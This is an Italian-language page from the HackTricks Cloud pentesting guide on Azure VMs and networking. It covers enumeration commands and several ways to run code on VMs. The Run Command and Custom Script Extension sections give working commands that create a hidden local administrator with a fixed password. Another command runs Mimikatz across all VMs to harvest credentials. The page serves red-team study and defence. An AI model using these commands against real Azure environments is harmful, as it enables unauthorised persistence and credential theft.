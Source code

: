 # Az - Macchine Virtuali e Rete

{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}

## Informazioni di base

[Dal documento:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Le macchine virtuali Azure sono uno dei diversi tipi di [risorse di calcolo scalabili on-demand](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) che Azure offre. Tipicamente, scegli una macchina virtuale quando hai bisogno di maggiore controllo sull'ambiente di calcolo rispetto ad altre opzioni. Questo articolo ti fornisce informazioni su cosa dovresti considerare prima di creare una macchina virtuale, come crearla e come gestirla.

## Informazioni sulla rete Azure

Le reti Azure contengono **diverse entità e modi per configurarla.** Puoi trovare una breve **descrizione,** **esempi** e comandi di **enumerazione** delle diverse entità di rete Azure in:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** offre una soluzione sicura e completamente gestita per l'accesso RDP (Remote Desktop Protocol) e SSH (Secure Shell) tramite SSL attraverso il portale Azure. È integrato all'interno di una Rete Virtuale Azure, consentendo la connettività RDP e SSH alle VM utilizzando IP privati, evitando la necessità di IP pubblici. Questo lo rende un'alternativa più sicura e conveniente ai metodi tradizionali che coinvolgono assegnazioni di IP pubblici e configurazioni di regole NSG per l'accesso alle VM. Sviluppatori e personale IT possono accedere in modo sicuro alle VM dal portale Azure utilizzando i loro browser web, semplificando il processo per ambienti di sviluppo e test.

Per elencare tutti gli Azure Bastion Hosts nel tuo abbonamento, puoi utilizzare il seguente comando:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## Enumerazione delle VM
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **Esegui comandi in una VM**

### **Accesso AAD in VM**

È possibile consentire l'accesso agli utenti autenticati tramite AzureAD. Ad esempio, tentando di accedere a una **linux VM**: `ssh username@azure-corp.com@1.1.1.1` (è importante **utilizzare l'email** con l'azurecorp utilizzata durante il tentativo di accesso) potresti ricevere un errore simile a: 

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Basta **seguire queste istruzioni** andando su [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) e indicando il codice, utilizzare l'email e la password come credenziali e sarai in grado di connetterti tramite SSH (se quell'utente ha abbastanza permessi per farlo: ruolo `Virtual Machine Administrator Login` o `Virtual Machine User Login`).

### **Esegui Comando**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **Esegui Estensione Script Personalizzato**

Le estensioni delle macchine virtuali (VM) di Azure sono **piccole applicazioni** che forniscono configurazione post-deployment e **compiti** di automazione su **VM di Azure**. Ad esempio, se una macchina virtuale richiede l'installazione di software, protezione antivirus o la possibilità di eseguire uno script al suo interno, puoi utilizzare un'estensione VM.

Pertanto, se hai accesso per scriverlo, puoi eseguire codice arbitrario:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC) è uno strumento PowerShell simile ad Ansible, utilizzato per configurare un host tramite codice. DSC si integra con Azure, consentendo il caricamento di file di configurazione specifici. Questi file devono aderire a una sintassi rigorosa. In particolare, l'estensione DSC in Azure può eseguire comandi da file che soddisfano determinati criteri di formattazione, anche se la sintassi non è corretta secondo gli standard DSC, come mostrato nella figura fornita.

L'esecuzione di questi comandi è facilitata dalla funzione [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) in Az PowerShell. I requisiti includono un file **.PS1** con una funzione definita e il file deve essere compresso in un file **.zip**. Anche se la sintassi potrebbe non essere accurata per DSC, il codice verrà comunque eseguito. Tuttavia, l'estensione segnerà lo stato di esecuzione come "errore" e non sarà visibile alcun output dal comando a causa dello stato sovrascritto dal messaggio di errore.

### VM Application Definitions

Le Definizioni di Applicazione VM consentono il deployment ripetibile di applicazioni versionate su una VM Azure. Questa risorsa supporta il deployment e l'aggiornamento delle applicazioni su più VM. Per configurarlo, sono necessari diversi passaggi, che coinvolgono comandi come **`New-AzGalleryApplication`** e **`New-AzGalleryApplicationVersion`** in Az PowerShell.

L'esecuzione di applicazioni o comandi tramite questo metodo coinvolge l'**"VMAppExtension"**, che viene installata automaticamente quando un'applicazione viene applicata a una VM. L'estensione recupera il file dall'URI specificato e lo nomina esattamente come l'applicazione, senza un'estensione. Per eseguire correttamente il file, il campo "ManageActions" nella chiamata API REST deve essere configurato per rinominare il file con l'estensione appropriata. La configurazione di questo metodo, una volta completata, assomiglierà alla struttura mostrata nella figura fornita.

Tuttavia, questo metodo di esecuzione è relativamente lento, impiegando circa 3-4 minuti per eseguire un'applicazione o un comando. I file relativi a questo processo sono memorizzati in directory specifiche (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` per la copia dell'applicazione e `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` per lo stato di esecuzione).

Entrambe le tecniche forniscono modi unici per eseguire comandi e distribuire applicazioni negli ambienti Azure, ognuna con il proprio insieme di requisiti, passaggi e considerazioni.

### Hybrid Worker Groups (HWGs) in Azure

[**Hybrid Worker Groups (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) sono una funzionalità in Azure che consente l'esecuzione di Runbook, configurati in un'Automation Account, su una Macchina Virtuale (VM) Azure che fa parte del HWG designato. Questa esecuzione è facilitata tramite un'estensione installata sulla VM, che distribuisce il codice del Runbook sulla VM. Un aspetto significativo di questo processo è che le credenziali effettive non sono un fattore nell'esecuzione poiché il codice viene eseguito con privilegi elevati, specificamente come **SYSTEM** o root, come illustrato nella figura fornita.

Un dettaglio cruciale per coloro che utilizzano VM Windows 10 è la necessità di specificare la versione di PowerShell per il Runbook. Dovrebbe essere impostata per essere eseguita come PowerShell Version 5.1 invece di 7.1. Questo requisito deriva dal fatto che PowerShell 7.1 non è installato per impostazione predefinita su queste VM, portando a un errore nell'esecuzione dello script se viene specificata la versione 7.1.

Questa funzionalità di Azure offre un metodo robusto per automatizzare e gestire attività in ambienti ibridi, consentendo una gestione centralizzata e l'esecuzione di attività su VM Azure.

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

